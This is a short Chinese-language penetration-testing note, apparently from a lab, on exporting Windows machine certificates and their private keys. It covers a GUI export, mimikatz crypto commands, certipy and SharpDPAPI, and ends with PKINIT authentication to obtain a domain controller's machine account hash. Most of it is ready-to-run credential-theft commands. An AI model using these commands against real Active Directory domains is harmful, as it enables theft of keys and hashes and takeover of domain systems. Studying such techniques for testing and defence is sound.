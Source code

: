 # mimikatz 导出证书

##### 图形化导出证书

此方法不能非法导出密钥。右键——>所有任务(K)——>导出(E)

##### mimikatz 导出证书

此方法能非法导出密钥。

```
mimikatz.exe "privilege::debug" "crypto::capi" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"

# 先转换为 certipy 可用的 pfx 文件
certipy cert -pfx local_machine_my_1_dc01.HACK.com.pfx -password "mimikatz" -export -out DC01.HACK.com.pfx
# 认证获得 hash
certipy auth -pfx DC01.HACK.com.pfx -dc-ip 192.168.72.21 -debug
```

![image-20250213153948266](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213153948266.png)

![image-20250213154449122](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213154449122.png)

##### SharpDPAPI 导出证书

此方法能非法导出密钥。需要system权限运行。

```
SharpDPAPI.exe certificates /machine

可以使用 SharpDPAPI 输出末尾显示的 openssl 命令将 .pem 转换为 .pfx，
相关命令如下。一旦转换为 .pfx 文件，就可以进行 PKINIT Kerberos 认证获得目
标机器账号的 hash 了。
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic
Provider v1.0" -export -out cert.pfx
```

